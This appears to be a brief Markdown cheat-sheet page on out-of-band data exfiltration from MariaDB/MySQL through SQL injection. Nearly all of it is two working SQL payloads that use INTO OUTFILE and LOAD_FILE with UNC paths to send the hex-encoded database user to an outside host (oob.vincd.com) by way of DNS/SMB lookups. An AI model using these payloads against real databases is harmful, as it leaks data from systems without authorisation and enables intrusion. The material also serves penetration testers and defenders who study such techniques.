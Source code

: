 ```yaml
---
title: "MarioDB / MySQL"
description: "Tips to exfiltrate information from a MariaDB/MySQL database."
date: 25/12/2020
categories:
 - SQL
tags:
 - sql
 - SQL injection
 - oob
 - mariadb
 - mysql
---
```



## Out of Band data exfiltration

```sql
SELECT 'a' INTO OUTFILE CONCAT('\\\\', (SELECT HEX(CONCAT(user(), "\n"))), '.oob.vincd.com\\test.txt');
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT HEX(CONCAT(user(), "\n"))), '.oob.vincd.com\\test.txt'));
```
